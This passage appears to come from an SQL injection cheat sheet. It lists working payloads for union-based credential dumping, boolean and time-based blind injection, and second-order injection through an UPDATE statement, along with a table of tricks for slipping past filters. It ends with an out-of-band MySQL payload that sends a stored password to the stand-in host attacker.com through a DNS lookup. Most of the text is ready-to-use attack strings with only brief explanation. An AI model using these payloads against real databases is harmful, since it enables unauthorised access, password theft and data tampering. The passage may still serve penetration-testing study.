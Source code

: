 4. **Dump data**:  
    `UNION SELECT NULL, GROUP_CONCAT(username,0x3a,password SEPARATOR 0x3c62723e), NULL FROM staff_users`
    

> _Note: Always match the number and data‑types of the original query’s columns._

### 1.2  Blind SQLi

When the response does not include error messages or data, inference techniques are required.

- **Boolean‑based**
    
    ```sql
    ' OR 1=1 -- -
    ' AND (SELECT SUBSTR(DATABASE(),1,1)='s') -- -
    ```
    
- **Time‑based**
    
    ```sql
    ' AND IF(ASCII(SUBSTR(USER(),1,1))>100,SLEEP(5),0) -- -
    ```
    

### 1.3  Second‑order SQLi

Malicious input is stored by the application and executed later, often in a privileged context.

```sql
12345'; UPDATE books SET title='Hacked' WHERE id=1; --
```

The update fires only when the row is subsequently processed by vulnerable code.

### 1.4  Filter Evasion

|Scenario|Technique|Example|
|---|---|---|
|Keyword filtering|Mixed case / inline comment|`SE/*foo*/LECT`|
|Quotes blocked|Numeric or hex literals|`OR 0x31=0x31`|
|Spaces blocked|Encoded or comment whitespace|`UNION/**/SELECT/**/1`|
|Operators blocked|Logical equivalents|`OR 1 /*foo*/=/*bar*/ 1`|
|Full keywords blocked|CHAR/CONCAT encoding|`UNION SELECT CHAR(117,115,101,114)`|

### 1.5  Out‑of‑band SQLi

When neither in‑band nor time‑based techniques work, leverage a second channel (DNS, HTTP, SMB) that the database can reach.

_MySQL example (DNS)_

```sql
SELECT LOAD_FILE(CONCAT('\\',(SELECT password FROM users WHERE id=1),'.attacker.com\\a'));
```
